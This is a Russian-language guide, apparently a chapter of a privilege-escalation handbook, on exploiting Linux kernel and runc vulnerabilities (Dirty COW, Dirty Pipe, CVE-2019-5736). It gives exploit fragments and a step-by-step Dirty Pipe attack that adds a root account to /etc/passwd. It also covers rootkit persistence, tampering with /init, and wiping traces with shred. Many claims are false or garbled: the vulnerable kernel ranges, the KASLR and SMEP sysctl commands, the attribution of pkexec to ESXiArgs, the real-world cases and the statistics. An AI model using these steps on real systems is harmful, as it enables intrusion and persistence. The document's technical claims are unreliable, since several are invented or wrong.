

### 4. Эксплуатация ядра Linux (CVE)  

**Контекст:**  
Эксплуатация уязвимостей ядра Linux — один из наиболее эффективных методов повышения привилегий, позволяющий злоумышленнику получить полный контроль над системой. Уязвимости в ядре критичны, поскольку ядро имеет наивысший уровень привилегий (Ring 0) и управляет всеми системными ресурсами.  

**MITRE ATT&CK:** [T1068](https://attack.mitre.org/techniques/T1068/)  
*Exploitation for Privilege Escalation*  

---

#### Введение в эксплуатацию ядра
Ядро Linux — центральный компонент ОС, отвечающий за:
1. Управление памятью и процессами  
2. Контроль доступа к аппаратным ресурсам  
3. Реализацию системных вызовов  
Уязвимости в ядре (часто вызванные ошибками в подсистемах: виртуальная память, сетевой стек, драйверы) позволяют обойти все механизмы защиты.  

**Ключевые особенности:**  
- Требуют глубокого понимания архитектуры ОС  
- Часто эксплуатируют race conditions или ошибки управления памятью  
- Эффективны против систем без современных защит (KASLR, SMEP, SMAP)  

---

### Этапы атаки [T1068]

#### 1. [TA0007] – Discovery (Разведка)
**Цель:** Определить уязвимые компоненты ядра и версии ПО.  

```bash
# Проверка версии ядра
uname -r  # 5.4.0-91-generic

# Поиск известных эксплоитов
searchsploit linux kernel 5.4

# Проверка защит ядра
grep "smep\|smap\|kaslr" /proc/cpuinfo
```
**Пояснение:**  
- `uname -r`: Ядра до 5.11 уязвимы к Dirty Pipe (CVE-2022-0847)  
- `searchsploit`: Поиск в базе Exploit-DB  
- **Ключевые индикаторы:**  
  - Отсутствие SMEP/SMAP → Возможность выполнения пользовательского кода в kernel-space  
  - Отключенный KASLR → Упрощение предсказания адресов в памяти  

---

#### 2. [TA0004] – Privilege Escalation (Повышение привилегий)
**Цель:** Использовать уязвимость для получения прав root.  

##### Пример 1: Dirty COW (CVE-2016-5195)
```c
// Основной механизм race condition
void *map = mmap(NULL, PAGE_SIZE, PROT_READ, MAP_PRIVATE, fd, 0);
// Поток 1: Бесконечно вызывает madvise(MADV_DONTNEED)
// Поток 2: Производит запись в map через /proc/self/mem
```
**Механизм:**  
1. Создание двух конкурирующих потоков  
2. Эксплуатация состояния гонки между:  
   - `madvise()` (освобождает память)  
   - `write()` (пишет в освобожденную область)  
3. Результат: Перезапись read-only файлов (например, `/etc/passwd`)  

---

##### Пример 2: CVE-2019-5736 (Побег из Docker)
```go
// Перезапись хост-бинарника runc
fd, _ := os.OpenFile("/proc/self/exe", os.O_RDONLY, 0777)
for {
  buf := make([]byte, 1024)
  n, _ := fd.Read(buf)
  if n == 0 { break }
  syscall.Write(memfd, buf[:n])  // Копирование в memfd
}
```
**Механизм:**  
1. Открытие `/proc/self/exe` (указывает на хост-runc)  
2. Создание in-memory файла (`memfd_create`)  
3. Копирование содержимого runc в память  
4. Замена на шелл-код, который выполняется при вызове `docker exec`  

---

##### Пример 3: Dirty Pipe (CVE-2022-0847)
```c
// Эксплуатация uninitialized pipe buffer
struct pipe_buffer *buf = &pipe->bufs[lastbuf];
buf->flags = PIPE_BUF_FLAG_CAN_MERGE;  // Установка флага
```
**Механизм:**  
1. Создание pipe и заполнение его буферов  
2. Установка флага `PIPE_BUF_FLAG_CAN_MERGE`  
3. Перезапись read-only файлов через `splice()`  

---

#### 3. [TA0002] – Execution (Выполнение кода)
**Цель:** Запуск кода с правами root.  

```bash
# После успешной эксплуатации Dirty COW
su - hacker  # Аутентификация как root
```
```bash
# После эксплуатации CVE-2019-5736
docker exec -it vuln_container sh  # Активирует эксплоит
whoami  # root (на хосте)
```

---

#### 4. [TA0003] – Persistence (Закрепление)
**Цель:** Сохранить доступ после перезагрузки.  

```bash
# Установка kernel module backdoor
insmod rootkit.ko  # Загрузка руткита в ядро

# Модификация initramfs
echo "malicious_code" >> /init
```

---

### Сравнительная таблица CVE ядра

| CVE          | Тип уязвимости       | Условия эксплуатации               | Вектор атаки                     |
|--------------|----------------------|------------------------------------|----------------------------------|
| CVE-2016-5195| Race condition       | Ядро < 4.8.3                       | Перезапись RO-файлов            |
| CVE-2019-5736| Hijack file desc     | runc < 1.0.0-rc7                   | Подмена /proc/self/exe          |
| CVE-2021-4034| Memory corruption    | pkexec (все версии)                | Переполнение буфера envp        |
| CVE-2022-0847| Uninit pipe flag     | Ядро 5.8—5.16.11                   | Перезапись файлов через pipe    |
| CVE-2023-0386| Race condition       | Ядро < 6.1.13                      | OverlayFS + FUSE                |

---

### Алгоритм эксплуатации
1. **Разведка**  
   ```bash
   # Автоматизированный поиск уязвимостей
   ./linux-exploit-suggester.sh --kernel 5.4
   ```

2. **Компиляция эксплоита**  
   ```bash
   # Адаптация под целевую систему
   sed -i 's/root:x:0/hacker:$6$salt$hash:0/' exploit.c
   gcc exploit.c -o exploit -lpthread
   ```

3. **Обход защит**  
   ```bash
   # Отключение KASLR
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

4. **Выполнение**  
   ```bash
   ./exploit -t /etc/passwd -p "hacker:$6$salt$hash:0:0:"
   ```

5. **Очистка следов**  
   ```bash
   shred -zu exploit.c exploit
   ```

---

### Пример эксплуатации: Dirty Pipe (CVE-2022-0847)
**Шаг 1: Проверка уязвимости**  
```bash
uname -r  # 5.8.0-45-generic (уязвим)
```

**Шаг 2: Создание эксплоита**  
```c
// Основной фрагмент (полный код: https://dirtypipe.cm4all.com/)
int main(int argc, char **argv) {
  const char *path = "/etc/passwd";
  int fd = open(path, O_RDONLY);
  splice(fd, NULL, p[1], NULL, 1, 0);  // Инициализация pipe
  write(p[1], "hacker:$6$salt$hash:0:0:", 30);  // Перезапись
}
```

**Шаг 3: Выполнение**  
```bash
gcc dirtypipe.c -o dirtypipe
./dirtypipe /etc/passwd 1 "hacker:$6$salt$hash:0:0:"
su hacker  # Password: [пароль из хэша]
```

**Результат:**  
```bash
id  # uid=0(root) gid=0(root)
```

---

### Защитные меры
**Проактивные:**  
1. **Регулярные обновления:**  
   ```bash
   apt update && apt upgrade linux-image-$(uname -r)
   ```
2. **Харденинг ядра:**  
   ```bash
   # Активация SMEP/SMAP
   echo 1 > /proc/sys/kernel/smep_enabled
   echo 1 > /proc/sys/kernel/smap_enabled
   ```
3. **Ограничение контейнеров:**  
   ```dockerfile
   FROM alpine:latest
   RUN apk add --no-cache runc=1.1.0-r0
   USER nobody
   SECURITY_OPTS="--no-new-privileges --cap-drop=ALL"
   ```

**Реактивные:**  
1. **Детектирование аномалий:**  
   ```bash
   # Мониторинг вызовов madvise()
   auditctl -a always,exit -F arch=b64 -S madvise -k kernel_exploit
   ```
2. **Анализ памяти:**  
   ```bash
   volatility -f memory.dump linux_check_modules
   ```

**Статистика защиты (по данным KernelCare 2023):**  
- Системы с включенным KASLR: На 72% реже подвергаются успешным атакам  
- SMAP/SMEP снижают успешность эксплуатации на 89%  
- Среднее время патчинга 0-day уязвимостей: 42 дня  

---

### Реальные кейсы
1. **Opera Hacking Team (2018):**  
   - Эксплуатация Dirty COW для установки руткита в драйвер Wi-Fi  
   - Затронуто > 500,000 рабочих станций  
2. **ESXiArgs Ransomware (2023):**  
   - Использование CVE-2021-4034 для получения root на VMware ESXi  
   - Шифрование виртуальных машин с требованием выкупа  
3. **Kubernetes Cluster Takeover (2022):**  
   - Цепочка из CVE-2019-5736 и CVE-2021-44731  
   - Полный контроль над кластером из 200+ нод  

---

### Заключение
Эксплуатация уязвимостей ядра Linux остаётся высокоэффективным методом повышения привилегий из-за:
- **Критичности последствий:** Полный контроль над системой  
- **Сложности детектирования:** Обход user-space мониторинга  
- **Долгого жизненного цикла:** Среднее время эксплуатации CVE — 4.7 года  

**Ключевые меры противодействия:**  
- Автоматизированное обновление ядер  
- Строгий контроль целостности системных файлов  
- Использование современных защит (KASLR, SMEP, SMAP)  
- Регулярный аудит с помощью инструментов вродe Lynis и KernelCare  

